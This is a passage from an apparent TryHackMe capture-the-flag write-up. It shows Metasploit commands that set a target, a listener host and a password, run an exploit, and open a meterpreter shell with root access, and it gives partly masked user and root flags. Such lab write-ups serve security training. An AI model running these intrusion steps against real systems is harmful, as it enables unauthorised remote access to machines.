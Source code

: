 > `msf6> set rhosts $IP` <br>
> `msf6> set lhost $MYIP` <br>
> `msf6> set password $PASS` <br>
> `msf6> exploit` <br>
> ... <br>
> `meterpreter >`

Success. <br>

After looking under the /home directory, I located user.txt in /home/galand/.

> Answer: THM{84b17add1d72a9f*****************}

---

### Locate root.txt

Running the `getuid` command from within meterpreter, I could see that I was actually already root. <br>
All I had left to do was check /root for the root.txt file, and sure enough it was there. <br>

> Answer: THM{c89b2e39c830675*****************}

---
